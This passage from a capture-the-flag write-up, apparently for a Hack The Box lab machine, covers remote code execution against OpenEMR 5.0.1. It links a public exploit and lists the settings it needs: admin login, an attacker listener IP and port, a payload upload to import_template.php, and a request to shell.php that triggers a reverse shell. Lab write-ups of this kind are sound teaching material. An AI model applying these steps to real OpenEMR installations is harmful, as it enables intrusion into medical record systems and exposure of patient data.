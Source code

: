 ![openemrcalendar.png](images/openemrcalendar.png)

### 3.3- Remote Code Execution

Now, it's reverse shell time. We can use the exploit we just read. Of course, we have to adapt it a little bit.   

First, the last version is provided here : [https://github.com/musyoka101/OpenEMR-5.0.1-Remote-Code-execution-Vulnerability-Exploit/blob/master/openemr_exploit.py](https://github.com/musyoka101/OpenEMR-5.0.1-Remote-Code-execution-Vulnerability-Exploit/blob/master/openemr_exploit.py).

Then, we put our parameters and we read the code entirely to make sure everything is OK:   
- username = "openemr_admin"
- password = "xxxxxx"
- ip = '10.10.14.18'
- port = 9001
- url = "http://hms.htb/interface/main/main_screen.php?auth=login&site=default"
- resp = s.post("http://hms.htb/portal/import_template.php?site=default", data = payload)
- rev_shell = s.get("http://hms.htb/portal/shell.php")
